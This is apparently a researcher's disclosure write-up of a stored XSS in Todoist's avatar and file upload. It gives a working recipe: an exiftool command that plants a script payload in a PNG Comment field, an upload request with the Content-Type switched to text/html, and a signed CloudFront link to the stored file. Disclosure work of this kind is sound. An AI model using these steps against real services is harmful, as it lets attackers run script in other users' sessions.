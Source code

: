 # Todoist App v8484 Stored XSS
I discovered a Stored XSS vulnerability on Todoist's platform through the avatar upload feature
Unrestricted file uploads allowing crafted image files,

    Lack of server-side MIME type verification, and

    Improper sanitization of image metadata (PNG tEXt chunk - Comment field).

This allows an attacker to upload a PNG file that executes arbitrary JavaScript when rendered, leading to stored XSS.

 PoC Technical Details

    Vulnerability Location:

        https://app.todoist.com/app/project/

        https://app.todoist.com/app/task/

    Attack Method:

        A PNG image is created and injected with a script payload into the Comment field using exiftool.
    Exiftool Command:

exiftool -Comment='"><script>alert(prompt("XSS BY BRT"))</script>' pngtoxss.png

<img width="608" height="55" alt="111" src="https://github.com/user-attachments/assets/2a274e15-2572-4253-9977-a68a8ed6c9ad" />


    This creates a malicious metadata chunk:

tEXtComment"><script>alert(prompt('XSS BY BRT'))</script>

<img width="667" height="321" alt="2222" src="https://github.com/user-attachments/assets/eba07ccd-eed0-424d-8a1f-91cb3dd9ed0e" />


    The PNG is then uploaded via the avatar or file upload function.

Content-Type Override:

    During upload, using Burp Suite, the Content-Type header of the file is changed:

        From: image/png

        To: text/html

Request Sample:

POST /api/v1/uploads HTTP/2
Host: app.todoist.com
Content-Type: multipart/form-data; boundary=...
...
Content-Disposition: form-data; name="file"; filename="pngtoxss.png"
Content-Type: text/html

<img width="950" height="466" alt="2" src="https://github.com/user-attachments/assets/e2170ba6-3f24-4d64-ab6f-cfaa5ebe41f7" />

<img width="783" height="428" alt="3" src="https://github.com/user-attachments/assets/cd344eef-d74b-4a4f-aa13-93b4a34ae577" />

<img width="954" height="491" alt="5" src="https://github.com/user-attachments/assets/1f191fdd-6fad-4afc-aad4-6ef8b84f11b1" />


Result:
The file is successfully uploaded and stored on cloudfront.net 

CDN:

   https://d1ysz50cxb9zwl.cloudfront.net/.../file.png

  https://d1ysz50cxb9zwl.cloudfront.net/Hqrm6dtqk-uJQqsDlBsHlaXJGVfNsdSWndNtYEhynhPp75G4kI4Gvo6ZyPeL6Zce/by/54863037/as/file.png?Expires=1753944966&Signature=SSZgohwHkdjD9vC7CHs03rYFR5OLwnBGgXk2ciwXdMVkeRH2BEspYiHSI1RgJIWc9amiPnbvIO2u7BFFBvnfDTuhTisfmOYAQRo8OsGFGDe0KSeOqCr8eH9H7JQtvxreko0ih4diqURD8WCt4man6Vka0AMGs59s-n68P~4x~TYIGfeuUPgQY-CX8tcRdSE0NrWLHL6Of7w02jWA2Nk1giZt~~CStwGdO3diFxS5lYorZ7lkvnCe~9VObDdASogr-2YKDamVvqtORqwAwpibyxoTKvw00lVLLJDqqT9yRC~jIkJksqWhkfbuqF3iYJh4g5BkHK1ML-EGlTCLqMk-9Q__&Key-Pair-Id=APKAJAERRT46LD6FN4NA

  
   <img width="947" height="441" alt="6" src="https://github.com/user-attachments/assets/33c135f6-b3e4-46da-9060-7cd161eb5320" />


    When previewed or rendered, the embedded JavaScript executes due to improper sanitization and MIME type handling.


    
